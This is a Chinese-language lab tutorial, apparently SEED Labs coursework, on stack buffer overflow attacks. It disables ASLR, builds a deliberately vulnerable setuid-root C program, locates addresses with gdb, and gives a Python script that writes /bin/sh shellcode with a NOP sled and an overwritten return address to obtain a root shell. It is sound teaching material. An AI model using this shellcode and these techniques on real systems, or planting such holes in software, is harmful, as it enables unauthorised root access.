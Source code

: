 # 栈的缓冲区溢出攻击

(代码文件可在**课程网站**或者 https://github.com/PeiweiHu/SEEDLabs/tree/main/stack_overflow 找到)

## 1. 关闭地址空间随机化

这一步是为了获取固定的栈地址，方便后续的攻击。

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 2. 准备有漏洞的程序

```c
// stack.c

#include "stdio.h"
#include "stdlib.h"
#include "string.h"

int foo(char *str) {
    char buffer[100];

	strcpy(buffer, str);
	return 1;
} 

int main(int argc, char **argv) {
	char str[400];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("Returned Properly\n");
	return 1;
}
```

对其进行编译，并设置为setuid程序：

```bash
gcc -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```

其中，`-z execstack`设置栈为可执行，`-fno-stack-protector`关闭StackGuard机制。

## 3. 通过调试寻找注入地址

```bash
# 为了方便调试时断点设置，编译一个含有符号信息的stack
gcc -g -o stack_dbg -z execstack -fno-stack-protector stack.c
# 使用gdb进行调试
gdb stack_dbg
# 对foo函数设置断点
b foo
# 运行程序，程序会在断点处停止
r
# 打印ebp寄存器和buffer变量的地址
p $ebp
p &buffer
```

## 4. 生成badfile

```python
#!/usr/bin/python3

import sys

shellcode = (
	"\x31\xc0" 	# xorl %eax,%eax
	"\x50" 	   	# %eax
	"\x68""//sh"	# pushl $0x68732f2f
	"\x68""/bin"	# pushl $0x6e69622f
	"\x89\xe3"	# movl %esp,%ebx
	"\x50"		# pushl %eax
	"\x53"		# pushl %ebx
	"\x89\xe1"	# movl %esp,%ecx
	"\x99"		# cdq
	"\xb0\x0b"	# movb $0x0b,%al
	"\xcd\x80"	# int $0x80
).encode('latin-1')

# fill with nop
content = bytearray(0x90 for i in range(300))

# put the shellcode
start = 300 - len(shellcode)
content[start:] = shellcode

# set the entry point of the shellcode
ret = 0xbfffeb98 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as wb:
	wb.write(content)
```

+ 注意！上述代码中 `ret = 0xbfffeb98 + 100`的`0xbfffeb98`替换为你自己调试时的`p $ebp`值

对上述文件增加执行权限后执行，生成badfile：

```bash
chmod u+x exploit.py
./exploit.py
```
这时生成了badfile。

## 5. 执行攻击

与之前实验类似，首先替换掉含有保护机制的shell。

```bash
sudo ln -sf /bin/zsh /bin/sh
```

执行漏洞程序获得root shell。

```bash
./stack
id
```